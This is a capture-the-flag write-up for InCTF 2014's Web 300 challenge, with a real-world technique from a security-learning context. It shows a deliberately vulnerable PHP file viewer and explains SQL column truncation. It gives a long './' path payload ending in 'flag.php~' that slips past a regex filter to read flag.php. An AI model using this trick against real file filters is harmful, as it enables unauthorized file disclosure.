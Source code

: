 ```yaml
---
layout: post
title: InCTF 2014 - Web 300 writeup
date: 2014-03-08 17:11:14.000000000 +05:30
type: post
published: true
status: publish
author: Nagesh Podilapu a.k.a H4rryp0tt3r
assetID: 8bea969a71aec10eb340c3ddc42b6d2d
---
```

In this challenge they gave a website like below with a simple form with GET Method.

{% include image.html url="/assets/8bea969a71aec10eb340c3ddc42b6d2d/front_screen.png" description="Front page of the given challenge" %}

And the source of the form is given as well

{% highlight html %}
<center>
<h1>File Share</h1>
<span style="color: green;"><strong>View your files</strong></span>
<form method="GET">
<table>
<tbody>
<tr>
<td align="right">File Name:</td>
<td align="left"><input type="text" name="filename" placeholder="*.txt " /></td>
</tr>
<tr>
<td align="right"><img alt="" src="captcha.php" /> :</td>
<td align="left"><input type="text" name="vercode" /></td>
</tr>
<tr>
<td></td>
<td align="left"><input type="submit" value="Submit" /></td>
</tr>
</tbody>
</table>
</form>
 <!-- Source : view.php~ --></center>
{% endhighlight %}

and after looking at the given source page, I found a link to php code of the web page

{% highlight php %}
<?php
include 'db.php';
if(isset($_GET['vercode']) && isset($_GET['filename'])){
    session_start();
    if ($_GET['vercode'] != $_SESSION["vercode"] OR $_SESSION["vercode"]==''){
        die("Wrong Captcha..");
    }
    $filename = mysql_real_escape_string($_GET['filename']);
    $id       = md5(mt_rand().rand());

    if(preg_match('/\.\.|(\.php$)/is',$filename))    die('Can\'t read php files..');
    $query = mysql_query("INSERT INTO foo VALUES('$id','$filename');");
    if($query)
        die("View your file: <a href="?id=$id">here</a>\n");
    else
        die("Something went wrong..");
    mysql_free_result($query);
}
if(!empty($_GET['id'])){
    $id      = mysql_real_escape_string($_GET['id']);
    $query   = mysql_query("SELECT * FROM foo WHERE id='$id'");
    if(!$query) die("Something went wrong..");
    while ($row = mysql_fetch_array($query)) {
        echo $row['FILENAME'];
        if (file_exists('./files/'.$row['FILENAME'])) {
            echo file_get_contents('./files/'.$row['FILENAME']);
        }
        else {
            die('No such file');
        }
 }
 mysql_free_result($query);
}
mysql_close();
?>
{% endhighlight %}

And it's a difficult challenge for me to get contents of flag.php, just before 2 days to the end of contest admin released a hint for this challenge which is an image containing text `truncation`.
Then I understood that it is something do with SQL Truncation, after reading some blog's I understand that If we try to insert a value into a column greater than it's length it will ignores the rest and inserts upto it's length only.

Example: This is a description of a table named `data` with a column `FILNAME` with length of 30.
{% highlight text %}
+----------+-------------+------+-----+---------+-------+
| Field    | Type        | Null | Key | Default | Extra |
+----------+-------------+------+-----+---------+-------+
| id       | varchar(35) | YES  |     | NULL    |       |
| FILENAME | varchar(30) | YES  |     | NULL    |       |
+----------+-------------+------+-----+---------+-------+
{% endhighlight %}

And If you insert a value of length 32 like below.
{% highlight text %}
INESRT INTO DATA VALUES('myID','d4c9fcb601ebe8aa8d4ab59dcdbf692a');
{% endhighlight %}
After executing the above query, contents of table are

{% highlight text %}
+------+--------------------------------+
| id   | FILENAME                       |
+------+--------------------------------+
| myID | d4c9fcb601ebe8aa8d4ab59dcdbf69 |
+------+--------------------------------+
{% endhighlight %}

If you would have observed, even if we insert a value of length 32 into column `FILENAME` only 30 characters added to table and rest of the string `2a` got skipped.
And then I try to find out length of the filename column by giving 500 A's as input to it, but script printed 110 A's only. Which means our filename column length is 110.
Quickly, I got an idea that, inserting 111 length string into that column skips 111th character, so I came up with this payload


./././././././././././././././././././././././././././././././././././././././././././././././././././flag.php~

`~` character at the end bypasses the regular expression <br> `preg_match('/\.\.|(\.php$)/is',$filename)` and skipped by the insert query because it's 111th character.
That gives us the contents of flag.php in source page and that is,

{% highlight php %}
<?php
$leet = "53714c5f63306c756d6e5f7472756e63407469306e";
function hex2str( $hex ){
    return pack('H*', $hex);
}
echo "flag{".md5(hex2str($leet))."}";
?>
{% endhighlight %}


After executing that php code I got the flag.

Flag is: **flag{f89759dab5b6ef402428c4571040c067}**

Thanks for reading and thanks to team bi0s for making a great CTF and introducing me to different attack vectors.

_Don't forget to give feedback on my writeup's as a reply, so that I can improve._
